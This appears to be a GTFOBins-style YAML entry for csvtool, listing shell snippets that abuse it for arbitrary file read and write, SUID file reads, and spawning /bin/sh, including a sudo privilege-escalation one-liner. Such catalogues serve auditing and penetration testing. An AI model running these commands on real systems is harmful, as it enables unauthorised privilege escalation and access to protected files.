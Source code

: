```yaml
---
functions:
  file-read:
    - description: The file is actually parsed and manipulated as CSV, so this might not be suitable for arbitrary data.
      code: |
        LFILE=file_to_read
        csvtool trim t $LFILE
  file-write:
    - description: The file is actually parsed and manipulated as CSV, so this might not be suitable for arbitrary data.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > $TF
        csvtool trim t $TF -o $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./csvtool trim t $LFILE
  shell:
    - code: csvtool call '/bin/sh;false' /etc/passwd
  sudo:
    - code: sudo csvtool call '/bin/sh;false' /etc/passwd
---
```

